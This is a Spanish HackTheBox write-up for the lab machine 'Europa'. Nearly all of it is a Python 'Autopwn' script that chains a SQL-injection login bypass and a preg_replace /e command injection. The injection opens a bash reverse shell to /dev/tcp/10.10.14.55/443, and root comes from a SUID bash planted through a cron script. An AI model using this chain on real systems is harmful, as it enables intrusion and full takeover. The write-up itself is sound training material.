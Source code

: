
---
layout: single
title: "Europa - HackTheBox"
excerpt: "Writeup de la máquina Europa de HackTheBox"
date: 2020-01-31
classes: wide
header:
  teaser: /assets/images/htb-writeup-europa/europa_logo.png
categories:
  - hackthebox
# tags:              # Eliminar esta sección completa
#   - linux          # Ya no usar tags
#   - web
#   - sqli
#   - rce
---
<p align="center">
<img src="/assets/images/htb-writeup-europa/europa_logo.png">
</p>

Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn.

Para los interesados en la resolución de esta máquina, os dejo el enlace al vídeo que subí a mi canal:

- [Máquina Europa - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)

## Script Autopwn

```python
#!/usr/bin/python
#coding: utf-8

# Author: s4vitar https://www.youtube.com/watch?v=wOm4OOBLbys

import requests, sys, urllib3, signal, time, threading
from pwn import *

# Declaración de variables
url = "https://admin-portal.europacorp.htb/login.php"
url_openvpn = "https://admin-portal.europacorp.htb/tools.php"
lport = 443

signal.signal(signal.SIGINT, signal.SIG_DFL)

def obtainShell():

 s = None

 try:
  urllib3.disable_warnings()
  s = requests.session()
  s.verify = False
  s.keep_alive = False

  login_data = {
   'email' : "admin@europacorp.htb' OR '1' = '1",
   'password' : 'admin'
  }

  p1 = log.progress("Login")
  p1.status('Realizando inyección SQL')
  time.sleep(2)

  r = s.post(url, data=login_data)

  p1.status('Inyección SQL enviada')
  time.sleep(2)

  if "Dashboard" in r.text:
   p1.success("Inyección SQL realizada con éxito")
   time.sleep(1)
   log.success("Acceso al Dashboard garantizado")
   time.sleep(1)
  else:
   p1.failure("No ha sido posible realizar la inyección SQL")
   sys.exit()

  p2 = log.progress("Explotación")
  p2.status("Creando un nuevo fichero de configuración VPN")
  time.sleep(2)

  openvpn_config_file_data = {
   'pattern' : '/ip_address/e',
   'ipaddress' : """system("bash -c 'bash -i > /dev/tcp/10.10.14.55/443 0>&1'")""",
   'text' : 'ip_address = s4vitar'
  }

  p2.status("Enviando petición al servidor")
  time.sleep(2)

  r = s.post(url_openvpn, data=openvpn_config_file_data, timeout=1)

  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except requests.exceptions.ReadTimeout:
  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except:
  print "\n[*] Ha ocurrido un error...\n"
  sys.exit()

if __name__ == '__main__':

 try:
  threading.Thread(target=obtainShell).start()
 except Exception as e:
  log.error(str(e))

 shell = listen(lport, timeout=20).wait_for_connection()

 if shell.sock is None:
  log.failure("No se ha obtenido ninguna conexión")
  sys.exit()
 else:
  log.success("Se ha obtenido una conexión")
  time.sleep(1)
  log.info("Acceso al sistema como usuario www-data")
  time.sleep(1)

 p3 = log.progress("Escalación de privilegios")
 p3.status("Creando fichero logcleared.sh en el sistema")
 time.sleep(2)
 shell.sendline("echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /var/www/cmd/logcleared.sh; chmod +x /var/www/cmd/logcleared.sh")
 p3.status("Archivo logcleared.sh creado")
 time.sleep(120)
 p3.status("Obteniendo shell como root")
 shell.sendline("bash -p")
 p3.success("Pwned!!")
 shell.interactive()

 sys.exit()
```
